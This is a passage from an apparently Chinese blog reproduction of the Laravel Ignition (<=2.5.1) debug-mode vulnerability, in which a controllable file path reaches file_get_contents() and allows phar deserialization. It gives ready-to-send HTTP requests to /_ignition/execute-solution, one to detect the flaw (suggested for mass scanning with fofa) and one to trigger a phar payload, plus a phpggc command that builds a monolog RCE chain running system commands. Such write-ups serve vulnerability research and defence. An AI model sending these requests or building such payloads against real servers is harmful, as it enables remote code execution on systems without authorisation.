 正如上面所说，debug模式中`ignition`附带了“一键修复bug”的功能,本次laravel这个漏洞其实就是发生在上面提到的 `Ignition`（<=2.5.1）中，本次漏洞就是其中的`vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php`中的参数过滤不严谨导致的。

![image-20210602213821629](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-02-image-20210602213821629.png)

可以看到这里主要功能点是：读取一个给定的路径，并替换`$variableName`为`$variableName ?? ''`，之后写回文件中。
 由于这里调用了`file_get_contents()`，且其中的参数可控，所以这里可以通过`phar://`协议去触发phar反序列化。

我们可以发以下数据包检测是否存在漏洞( 可用作fofa批量搜寻漏洞)

```json
POST /_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/json
Connection: close
Content-Length: 166

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "theoyu",
    "viewFile": "xxxxxxx"
  }
}
```

![image-20210601235046916](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-02-image-20210601235046916.png)

可以看到有报错，说明漏洞存在，我们现在开始复现。

我们假设后期二次开发人员写了一共文件上传功能，那我们可以传一个恶意`phar`文件，再利用`file_get_contents()`进行反序列化。

这里我们从**phpggc**拿一条链子(好像laravel5的几个链也可以)

```bash
php -d'phar.readonly=0' ./phpggc monolog/rce1 system whoami --phar phar -o phar.phar
```

将其放入laravel下。

利用上述`file_get_contents()`触发。

```json
POST /_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/json
Connection: close
Content-Length: 222

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "theoyu",
    "viewFile": "phar:///phpStudy/PHPTutorial/WWW/cms/laravel/phar.phar/test.txt"
  }
}
```
